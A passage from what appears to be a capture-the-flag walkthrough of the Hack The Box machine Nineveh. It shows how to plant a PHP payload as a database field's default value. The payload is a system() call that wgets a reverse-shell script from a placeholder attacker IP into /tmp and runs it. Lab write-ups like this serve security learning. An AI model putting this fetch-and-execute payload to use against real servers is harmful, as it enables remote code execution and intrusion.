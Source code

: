 <img src="/img/blog/htb-nineveh/htb-nineveh-09.png">

Click on our newly created database under *Change Database* and add a table inside called shell, select 1 field:

<img src="/img/blog/htb-nineveh/htb-nineveh-10.png">

Name the field whatever we wish, set it as text type, put `<?php system("wget YOURIP/shell.txt -O /tmp/shell.php; php /tmp/shell.php"); ?>` into the default value & click create. This should create a new table with our exploit. *The default value script plays a huge role here as it is used to download our main php reverse shell.*

<img src="/img/blog/htb-nineveh/htb-nineveh-11.png">